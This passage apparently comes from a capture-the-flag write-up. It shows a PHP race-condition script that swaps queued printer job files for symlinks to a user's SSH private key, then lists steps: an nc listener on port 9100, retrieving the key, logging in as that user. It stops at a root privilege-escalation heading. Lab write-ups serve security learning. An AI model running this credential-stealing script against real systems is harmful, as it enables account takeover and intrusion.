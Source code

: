 * here is my script for this point --> **Race Condition Script**.

```ruby

<?php

$dir = '/var/www/jobs/';

function over ($file) {
        echo $file;
        unlink($file);
        symlink('/home/srvadm/.ssh/id_rsa', $file);
}

while (true) {
        $files = scandir($dir);
        foreach ($files AS $file) {
                if ($file{0} === '.') {
                        continue;
                }
                $f = $dir . $file;
                if (is_file($f) && !is_link($f)) {
                        over($f);
                }
                break;
        }
}
?>

```

> first i will add my ip as a printer.

> ![](https://i.ibb.co/yWrjnTC/xdev.png)

> then start a nc listener on 9100 port and click connect to the printer and run my php file..

> ![](https://i.ibb.co/q0Z4n8Q/up.png)
>
> ![](https://i.ibb.co/BjdjWyL/up2.png)

> click on add a job.

> ![](https://i.ibb.co/VgzfpG7/srvadmprint.png)

* and here's the id_rsa for the srvadm.

> ![](https://i.ibb.co/HhQZCF2/privatekey.png)

* let's login as srvadm now.

> ![](https://i.ibb.co/64wkp9z/loginasrvamd.png)

* nice!

# []()Privilege Escalation --> root
